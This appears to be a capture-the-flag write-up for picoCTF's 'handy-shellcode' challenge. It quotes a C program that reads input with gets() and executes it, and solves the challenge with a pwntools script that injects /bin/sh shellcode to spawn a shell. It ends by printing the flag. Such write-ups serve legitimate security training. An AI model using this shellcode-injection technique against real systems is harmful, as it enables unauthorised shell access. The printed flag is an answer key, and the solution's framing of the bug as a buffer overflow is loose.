


# handy-shellcode

Points: 50

# Question

This [program](vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb on the shell server. [Source](vuln.c).

# Hint 

You might be able to find some good shellcode online.

# Solution

By examining the source file we can see that the program use "gets" function which if vulnerable for buffer overflow 
```C
void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

First, let's run the program and try to make it crash.



using pwn tools its easy to exploit this program [script](script.py) and spawn shell then extract the flag

```python
from pwn import *

sh = process('vuln')
sh.sendlineafter(':\n', asm(shellcraft.i386.linux.sh()))
sh.interactive()```





# Flag
picoCTF{h4ndY_d4ndY_sh311c0d3_15d47ccd}

